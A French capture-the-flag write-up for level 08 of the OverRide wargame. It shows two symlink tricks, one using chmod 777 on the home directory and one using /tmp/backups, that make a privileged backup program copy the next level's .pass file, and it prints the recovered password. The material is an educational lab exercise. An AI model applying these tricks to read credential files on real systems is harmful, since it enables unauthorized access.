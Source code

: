 # Level 08

## First solution

### Protections

![](Ressources/protections.png)

### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presencde du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Second solution

Au lieu de chmod le home on peut recreer le dossier backups dans /tmp/
Creer un dossier sur lequel on va link le home du level09
Executer le binaire depuis le dossier /tmp/ avec comme parametre le .pass du dossier link sur le home

```
mkdir -p /tmp/backups/link/
ln -s /home/users/level09 /tmp/link
cd /tmp/
~/level08 link/.pass

cat /tmp/backups/link/.pass
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
